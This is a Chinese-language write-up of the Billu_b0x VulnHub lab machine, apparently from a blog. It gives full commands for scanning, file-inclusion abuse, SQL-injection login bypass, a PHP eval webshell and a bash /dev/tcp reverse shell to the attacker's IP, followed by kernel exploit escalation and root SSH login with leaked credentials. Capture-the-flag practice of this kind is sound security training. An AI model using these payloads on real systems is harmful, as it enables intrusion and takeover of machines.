

title: ‘Billu_b0x通关笔记’
date: 2020-08-17 20:45:18
categories: “vulnhub”
tags:
- "vulnhub"
- "靶机"0.介绍
靶机名称：Billu_b0x
下载链接：https://download.vulnhub.com/billu/Billu_b0x.zip
虚拟机难度中等，使用ubuntu（32位）,其他软件包有：PHP，apache，MySQL
目标：Boot to root：从Web应用程序进入虚拟机，并获得root权限。
攻击机：kali
攻击机ip：192.168.110.128 (NAT)
靶机ip：网络连接方式设置为NAT，靶机自动获取IP
1.信息搜集
因为是自动获取ip,kali与靶机处同一网段，所以用nmap扫一下同网段存活主机。
1 | nmap -sP 192.168.110.0/24 |
可以看到已经扫出靶机ip：192.168.110.130，再扫一下全端口，输出到billu.txt
1 | nmap -A -p 1-65535 192.168.110.130 -oN billu.txt |
2.web
先看一下80端口进去是什么，一个登录界面，标题中含有Show me your SQLI skills ,可能是注入
看一下源码
不急着注入，先扫一下目录，这里我用的是dirb
1 | dirb http://192.168.110.130 /usr/share/dirb/wordlists/big.txt |
这是扫出来的结果
发现几个有意思的页面,好家伙，全是重要文件。。。
1 | /add.php 上传 |
经过测试发现test.php文件有文件包含漏洞

那就把刚刚的几个文件下载看一下
add.php下载下来分析一下，纯静态页面，无法上传
file参数，文件包含漏洞
知道了网站绝对路径 /var/www/

config.php，包含数据库帐号密码
这里有本地包含
2.1方法一：phpmyadmin
刚才扫出来有个目录叫phpmy,访问一下，果然是phpmyadmin
直接拿上面的账号密码登录 billu:b0x_billu
进入phpmyadmin
1 | 可以通过写shell进行提权，而我们需要满足以下条件： |
很明显不行，不是root权限，换一种方法
测试是否有写权限
1 | SHOW VARIABLES LIKE 'secure_file_priv'; |

1 | 1.show variables like 'general_log'; 查询日志是否开启 |
但是日志关闭了，且不是root用户，看来通过phpmyadmin直接getwebshell是不行的，
查看auth表，其中有前面登录框密码：biLLu:hEx_it
2.2 方法二：前台登录框绕过
用test.php包含漏洞下载index.php文件，审计过滤规则
1 | $uname=str_replace('\'','',urldecode($_POST['un'])); |
str_replace的作用是将字符串' 替换为空，因此构造SQL注入登录payload时，必须含有'字符串，否则会报错。urldecode的作用是将输入解码。
绕过or 1=1 -- \ ，登录框可密码框都需要输入这个
3.进入web系统
进入系统之后，首页是一个查看用户页面，
这里可以增加user，应该可以上传图片
这里搞个cmd命令一句话，加个
1 | GIF89a |
上传之后查看一下图片
然后用panel.php来包含一下
然后找一下哪个目录有写权限，方便写个马进去
1 | ls -la |
刚刚那个图片目录就有权限
接下来就简单了
4.提权
4.1 蚁剑
直接写个一句话进去，用蚁剑连
1 | http://192.168.110.130/panel.php?cmd=echo '<?php eval($_POST['cmd']);?>' >> uploaded_images/shell.php |
蚁剑连接成功
蚁剑虚拟终端执行一下命令，查看一下系统版本和内核
在kali中searchsploit
1 | searchsploit Ubuntu 12.04 |
拷贝出来，给权限，然后用gcc 编译
1 | cp /usr/share/exploitdb/exploits/linux/local/37292.c /root/ |
上传到目标机，执行,提权失败，应该是虚拟终端的缘故，所以要nc反弹一个shell
4.2nc反弹
直接开启nc,监听6666端口
1 | nc -lvnp 6666 |
然后利用panel的本地包含运行cmd.jpg命令马，反向反弹一下,注意此处命令一定要url编码
1 | http://192.168.110.130/panel.php?cmd=echo 'bash -i >& /dev/tcp/192.168.110.128/6666 0>&1' | bash |
成功反弹shell，也可以用蚁剑的虚拟终端来反弹shell到nc
然后执行exp，提权成功
最简单的方法
这里还可以猜测 phpmyadmin 的配置文件 路径 /var/www/phpmy/config.inc.php
用test.php下载试试，果然存在，
root密码都有了： root:roottoor，直接上SSH,成功